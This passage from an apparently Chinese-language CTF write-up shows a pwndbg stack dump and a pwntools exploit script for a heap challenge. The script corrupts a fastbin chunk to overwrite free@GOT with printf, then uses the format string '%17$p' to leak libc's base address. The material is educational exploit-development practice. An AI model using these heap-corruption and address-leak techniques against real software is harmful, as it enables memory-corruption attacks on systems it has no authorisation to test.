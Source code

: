 执行到printf时(即上面call free@plt <0x4006d0>这行代码)，需要按如下方法调整一下格式化字符串参数来实现leak libc：

```
pwndbg> stack 20                     # 查看栈，找到指向__libc_start_main地址的栈地址
00:0000│ rsp  0x7ffe2252cb00 —▸ 0x7ffe2252cc30 ◂— 0x1
01:0008│      0x7ffe2252cb08 ◂— 0x200000000
02:0010│      0x7ffe2252cb10 ◂— 0xa32 /* '2\n' */
03:0018│      0x7ffe2252cb18 ◂— 0xe8283e24c315cb00
04:0020│ rbp  0x7ffe2252cb20 —▸ 0x7ffe2252cb50 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
05:0028│      0x7ffe2252cb28 —▸ 0x400ead (main+246) ◂— jmp    0x400ed3
06:0030│      0x7ffe2252cb30 ◂— 0x400400ee0
07:0038│      0x7ffe2252cb38 —▸ 0x199c010 —▸ 0x400896 (hello_message) ◂— push   rbp
08:0040│      0x7ffe2252cb40 —▸ 0x7ffe22520a34 ◂— 0x0
09:0048│      0x7ffe2252cb48 ◂— 0xe8283e24c315cb00
0a:0050│      0x7ffe2252cb50 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
0b:0058│      0x7ffe2252cb58 —▸ 0x7f3ca0ad9830 (__libc_start_main+240)   # 输出栈地址0x7ffe2252cb58处值就可以
0c:0060│      0x7ffe2252cb60 ◂— 0x0
0d:0068│      0x7ffe2252cb68 —▸ 0x7ffe2252cc38 —▸ 0x7ffe2252d92e ◂— '/pwn/pwn'
0e:0070│      0x7ffe2252cb70 ◂— 0x100000000
0f:0078│      0x7ffe2252cb78 —▸ 0x400db7 (main) ◂— push   rbp
10:0080│      0x7ffe2252cb80 ◂— 0x0
11:0088│      0x7ffe2252cb88 ◂— 0xe7ee3803375ceb20
12:0090│      0x7ffe2252cb90 —▸ 0x4007a0 (_start) ◂— xor    ebp, ebp
13:0098│      0x7ffe2252cb98 —▸ 0x7ffe2252cc30 ◂— 0x1
pwndbg> fmtarg 0x7ffe2252cb58
The index of format argument: 17     # 构造格式化参数，printf("%17$p")的时候就可以把目标地址打印出来
pwndbg> xinfo 0x7f3ca0ad9830         # 查看__libc_start_main虚拟地址对应的偏移量
Extended information for virtual address 0x7f3ca0ad9830:

  Containing mapping:
    0x7f3ca0ab9000     0x7f3ca0c79000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so

  Offset information:
         Mapped Area 0x7f3ca0ad9830 = 0x7f3ca0ab9000 + 0x20830
         File (Base) 0x7f3ca0ad9830 = 0x7f3ca0ab9000 + 0x20830
      File (Segment) 0x7f3ca0ad9830 = 0x7f3ca0ab9000 + 0x20830             # 所以得到偏移量为0x20830
         File (Disk) 0x7f3ca0ad9830 = /lib/x86_64-linux-gnu/libc-2.23.so + 0x20830

 Containing ELF sections:
               .text 0x7f3ca0ad9830 = 0x7f3ca0ad88b0 + 0xf80
```

根据以上信息，修改脚本如下并运行，获取到libc地址

```
add(0x50, '000000')
add(0x50, '111111')
add(0x50, '.%17$p.')                                   # 注意这里的技巧，两个.用来方便标示和截取地址
delete(1)
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
add(0x50, 'xxxxxxxx')
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6])
pause()
delete(2)                                              # 触发free(".%17$p.")也就是printf(".%17$p.")
io.recvutil('.')
libc.address = int(io.recvutil('.', drop = True), 16) - 0x20830        # 减去上面查到的偏移量0x20830
print('libc @ {:0x}'.format(libc.address))
assert libc.address & 0xfff == 0
```
